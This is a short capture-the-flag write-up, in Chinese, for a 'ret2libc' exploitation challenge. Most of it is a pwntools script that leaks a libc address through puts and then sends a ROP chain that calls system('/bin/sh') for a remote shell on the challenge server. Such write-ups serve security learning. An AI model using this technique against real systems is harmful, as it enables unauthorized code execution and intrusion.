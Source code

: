 ```yaml
---
title: newstar2023 week2 - ret2libc
date: 2023/10/2 12:00:00
tags:
    - noob
excerpt: 利用ret2libc技术实现远程代码执行。
---
```


## 文件分析

下载`ret2libc`, NX on, PIE off, Canary off, RELRO partial  
ghidra分析为64位程序

## 解题思路

参考我的moectf2023和cbctf的wp，很常规的一题

## EXPLOIT

```python
import LibcSearcher
from pwn import *
sh = remote('node4.buuoj.cn', 29167)
elf = ELF('ret2libc')

putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x400763
mainAddr = elf.symbols['main']

# payload 1
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(mainAddr))

sh.recvuntil(b'time\n') # skip
data = sh.recv()
putsGotAddr = u64(data[:6] + b'\0\0')
libc = LibcSearcher.LibcSearcher('puts', putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump('puts')
shstrAddr = libcBase + libc.dump('str_bin_sh')
systemAddr = libcBase + libc.dump('system')
retAddr = 0x4006f1

# payload 2
sh.sendline(b'0'*0x28 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
